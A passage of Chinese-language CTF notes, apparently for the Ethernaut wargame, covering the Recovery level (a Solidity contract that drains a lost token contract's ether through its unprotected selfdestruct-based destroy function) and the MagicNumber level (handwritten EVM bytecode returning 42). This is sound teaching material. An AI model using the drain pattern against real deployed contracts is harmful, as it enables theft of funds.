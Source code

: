 ## 17. Recovery
目標找到 simpleToken 的 address 並讓他的 ether 歸 0

去 XXXscan 上觀察 address，利用 selfdestruct 將合約的 ether 全數轉出

正規解法要算出 contract address

### Exploit
```solidity
pragma solidity ^0.8.0;

interface ISimpleToken {
    function destroy(address payable _to) external;
}

contract Exp {

    function withdraw(address _addr) public {
        ISimpleToken(_addr).destroy(payable(msg.sender));
    }
}
```

## 18. MagicNumber
目標寫出最多只能用到 10 opcodes 的合約，需回傳 magic number 42
### Runtime code
return 42(0x2a)，RETURN 有 2 個參數: position、size，先將 42 存進 memory 再從 memory 讀出來並回傳
- mstore(position, value)
```
602a    Push 0x2a in stack.
6050    Push 0x50 in stack.
52      Mstore
```
- return(position, size)
```
6020    Push 0x20(32 bytes) in stack.
6050    Push 0x50 in stack.
f3      RETURN
```

runtime opcodes 剛好 10 bytes
```
602a60505260206050f3
```

### Init code
可以部署一個合約看看長怎樣

### Exploit
```
bytecode = '600a600c600039600a6000f3602a60505260206050f3'
txn = await web3.eth.sendTransaction({from: player, data: bytecode})
solverAddr = txn.contractAddress
await contract.setSolver(solverAddr)
```
